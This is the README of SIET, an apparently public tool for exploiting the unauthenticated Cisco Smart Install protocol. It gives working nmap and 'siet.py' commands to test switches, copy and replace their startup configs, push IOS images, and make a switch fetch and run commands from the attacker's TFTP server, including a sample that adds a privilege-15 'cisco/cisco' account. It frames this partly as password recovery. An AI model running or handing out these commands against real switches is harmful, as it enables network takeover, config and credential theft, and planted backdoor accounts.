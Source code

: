 # SIET - Smart Install Exploitation Tool

Cisco Smart Install is a plug-and-play configuration and image-management feature that provides zero-touch deployment for new switches. You can ship a switch to a location, place it in the network and power it on with no configuration required on the device.

You can easy identify it using nmap cisco-siet.nse script. Just download it and run it: 
```	
nmap -p 4786 -v 192.168.0.1	# By default, it will just test whether host is vulnerable or not
$ nmap -p 4786 -v 192.168.0.1 --script ./cisco-siet.nse
# You can pass argument to get config
# Note: you need to run it as root
# If you are attacking public ip, make sure to provide your public ip to the script (cisco-siet.addr=<PUBLIC_IP>)
$ sudo nmap -p 4786 -v 192.168.0.1 --script ./cisco-siet.nse \
> --script-args "cisco-siet.get"
```

Useful commands:

```
sudo ufw allow 69/udp
sudo nmap -p4786 --script ./cisco-siet.nse --script-args cisco-siet.get,cisco-siet.addr=<myinternalip> x.x.x.x -Pn
```


This protocol has a few security issues and this simple tool helps you to use all of them.:

1. Change tftp-server address on client device by sending one malformed TCP packet.
2. Copy client's `startup-config` on tftp-server exchanged previously.
3. Substitute client's `startup-config` for the file which has been copied and edited. Device will reboot in defined time.
4. Upgrade ios image on the "client" device.
5. Execute random set of commands on the "client" device. IS a new feature working only at `3.6.0E` and `15.2(2)E` ios versions. 


All of them are caused by the lack of any authentication in smart install protocol. Any device can act as a director and send malformed tcp packet. It works on any "client" device where smart install is enabled. It does not matter if it used smart install in the network or not.

**Confim** from vendor: 

- https://tools.cisco.com/security/center/content/CiscoSecurityResponse/cisco-sr-20170214-smi
- https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20160323-smi

**Slides**: https://2016.zeronights.ru/wp-content/uploads/2016/12/CiscoSmartInstall.v3.pdf

# USAGE

You can use it for password recovery of for unlock cisco switch when no password provided.

Example to get config:

```
sudo python siet.py -g -i 192.168.0.1
```

Options:

- `-t`  test device for smart install
- `-g`  get device config
- `-c`  change device config
- `-C`  change multiple device configs
- `-u`  update device IOS
- `-e`  execute commands in device's console
- `-i` ip address of target device
- `-l` ip list of targets (file path)
- `--thread-count` number of threads to be spawned

## How to use `-e` option
1. You have to create directory `tftp` (near siet.py) and file inside it `tftp/execute.txt`
2. File should contains commands for cisco switch, each command in quotes, separate by space. Example: `"username cisco privilege 15 secret 0 cisco" "exit"`
3. Then you run `siet.py` with IP address of device.
4. `siet.py` starts tftp server (69 port UDP) on your IP.
5. `siet.py` send command to switch to force download that file and execute it.  
    **Note: device need to have route to your IP. If you run it again device in Internet, you must run it from external IP**
6. Device go to you TFTP server, download and execute commands from file (no reboot is necessary)

# UPDATES

New option `-C`. You can place configs into the `tftp/conf` directory following the 
naming convention of `ip.conf`, ie: `192.168.10.1.conf`. A target ip list `-l` must be used
in conjunction with this option, the name of the conf corresponds to it's target destination.

New option `-l`. You can use list of ip addresses for getting configuration file.

Fix bug with incorrect test of device.

If you are thinking about what to do with the copied configuration files, you can try our new tool: [Cisco Config Analysis Tool](https://github.com/cisco-config-analysis-tool/ccat)

If you have any questions, please write me at telegram: @sab0tag3d
